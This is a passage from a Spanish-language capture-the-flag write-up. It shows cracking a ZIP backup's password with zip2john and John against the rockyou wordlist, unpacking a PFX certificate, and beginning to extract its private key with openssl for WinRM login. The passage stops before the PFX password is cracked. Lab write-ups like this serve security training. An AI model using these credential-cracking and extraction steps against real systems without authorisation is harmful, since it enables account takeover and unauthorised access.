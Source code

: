 Encontramos dos carpetas: `Dev` y `HelpDesk`. En la carpeta `Dev`, hallamos un archivo `zip` llamado `winrm_backup.zip`. Intentamos descomprimirlo, pero requerimos una contraseña que no poseemos actualmente.

```bash
❯ unzip winrm_backup.zip
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password:
```

Intentamos descifrar la contraseña utilizando la herramienta `John`. Para ello, primero utilizamos la utilidad `zip2john` para convertir el archivo `zip` a un formato hash.

```bash
❯ zip2john winrm_backup.zip > hash_zip
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash_zip
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:00 DONE (2023-07-26 23:08) 1.010g/s 3508Kp/s 3508Kc/s 3508KC/s surkerior..superkebab
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

El resultado es un archivo `PFX` que contiene un certificado `SSL` en formato **PKCS#12** y una clave privada.

```bash
❯ unzip winrm_backup.zip
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
  inflating: legacyy_dev_auth.pfx
```

## Explotación

---

El certificado y la clave privada permiten iniciar sesión sin contraseña en `WinRM`. A continuación, intentaremos extraerlos del archivo.

El primer paso será extraer la clave privada del archivo `PFX`, el cual estará encriptado, para ello ingresa el siguiente comando:

```bash
❯ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out file-priv.key
Enter Import Password:
```

La salida anterior indica que necesitamos una contraseña diferente a `supremelegacy`. Para proceder, utilizamos la utilidad `pfx2john` para convertir el archivo `PFX` en un formato hash, y luego empleamos `John` para descifrar la contraseña.

